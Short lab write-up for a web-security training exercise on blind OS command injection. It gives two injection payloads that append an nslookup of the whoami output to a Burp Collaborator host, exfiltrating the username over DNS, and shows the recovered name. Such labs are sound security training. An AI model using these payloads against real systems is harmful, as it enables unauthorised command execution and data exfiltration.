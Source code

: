 # Lab  5 - Blind OS command injection with out-of-band data exfiltration (Running commands like whoami)

`To solve the lab, execute the `whoami` command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab.`


### Solution - 

Same process as above but add this payload

- ``` & nslookup `whoami`.zorh37nyfzjbsg1nog7j9m16zx5ntc.burpcollaborator.net # ```

                                      or 

-  ` & nslookup $(whoami).zorh37nyfzjbsg1nog7j9m16zx5ntc.burpcollaborator.net # `

We get the username in the details panel - `peter-iQRvf5`

![image](https://user-images.githubusercontent.com/67383098/225319008-28f90fcf-53d6-4237-b84d-bcd563b8a882.png)





